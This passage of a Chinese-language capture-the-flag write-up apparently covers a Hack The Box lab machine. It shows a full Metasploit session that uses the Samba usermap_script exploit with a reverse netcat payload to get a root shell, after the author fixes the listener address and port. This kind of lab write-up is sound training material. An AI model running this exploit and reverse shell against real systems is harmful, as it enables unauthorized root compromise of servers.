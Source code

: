 但是看了文件内容，没找到太多东西。

刚好重新开启机器，顺手看了一下靶机标签，里面有RCE和CVE-2007-XXXX，为了保证尽量还原考试场景，就不去仔细看这些提示了，2007是samba 3.0.20 exploit的时间，猜测入口点还是在这个exploit的位置。

重新跑msf，提示还是`Exploit completed, but no session was created.`google排查了一下，找了[一篇文章](https://forum.hackthebox.com/t/solved-exploit-completed-but-no-sessions-created/2488/13)。

这里的问题点其实是需要把msf的监听改为VPN的IP地址（如果虚拟机开了NAT没准要改桥接）

## 漏洞利用

解决及最后漏洞利用如下：
```
[*] Started reverse TCP handler on 192.168.43.253:4444 
[*] Exploit completed, but no session was created.
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identif
                                      ier, or hosts file with syntax 'file:<
                                      path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.43.253   yes       The listen address (an interface may be
                                      specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.16.2
LHOST => 10.10.16.2
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.2:4444 
[-] 10.10.10.3:139 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection timed out (10.10.10.3:139).
[*] Exploit completed, but no session was created.
msf6 exploit(multi/samba/usermap_script) > set rport 445
rport => 445
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Command shell session 1 opened (10.10.16.2:4444 -> 10.10.10.3:38190) at 2022-08-18 21:35:01 -0500

whoami
root
pwd
/
cd /root
```